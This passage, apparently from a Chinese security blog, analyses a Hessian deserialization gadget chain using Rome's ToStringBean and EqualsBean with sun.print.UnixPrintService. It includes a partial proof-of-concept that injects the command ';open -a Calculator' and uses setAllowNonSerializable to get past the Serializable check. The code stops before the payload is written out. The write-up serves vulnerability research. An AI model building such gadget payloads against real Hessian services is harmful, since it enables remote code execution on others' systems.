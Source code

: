 但是这里UnixPrintService并没有实现Serializable，在marshalsec中有具体的实现

![image-20230311145134550](images/36.png)

这里就没有再去写poc了，之前在没有注意这个没有Unserializable接口的时候，写了一个，结果是从writeObject走过去的，

![image-20230311145451085](images/37.png)

原来是因为没有实现这个接口而导致抛出异常最后调用到append，最后走到了ToStringBean的toString方法

不过，之前提到过同时 Hessian 还提供了一个 `_isAllowNonSerializable` 变量用来打破这种规范，可以使用 `SerializerFactory#setAllowNonSerializable` 方法将其设置为 true，从而使未实现 Serializable 接口的类也可以序列化和反序列化

其实只需要在序列化的时候加上

```
hessian2Output.getSerializerFactory().setAllowNonSerializable(true);
```

所以最后poc如下

```
package Unser.Hessians.Rome;

import com.caucho.hessian.io.Hessian2Output;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import sun.print.UnixPrintService;

import java.io.ByteArrayOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.security.SignedObject;
import java.util.Base64;
import java.util.HashMap;

public class unixPayload {
    public static void main(String[] args) throws Exception{

        Constructor[] constructor =  Class.forName("sun.print.UnixPrintService").getDeclaredConstructors();
        constructor[0].setAccessible(true);
        UnixPrintService unixPrintService = (UnixPrintService) constructor[0].newInstance(";open -a Calculator");

        ToStringBean toStringBean = new ToStringBean(UnixPrintService.class,unixPrintService);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);

        HashMap s = new HashMap();
        s.put("a",1);
        Field field = s.getClass().getDeclaredField("table");
        field.setAccessible(true);
        Object[] table = (Object[]) field.get(s);
        // hashmap的索引会根据key的值而变化，如果要改前面的key的话，这里的索引可以用调试的方式改一下
        Object node = table[1];
        Field keyField;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        if (keyField.get(node) instanceof String){
            keyField.set(node,equalsBean);
        }

        ByteArrayOutputStream byteArrayOutputStream1 = new ByteArrayOutputStream();
```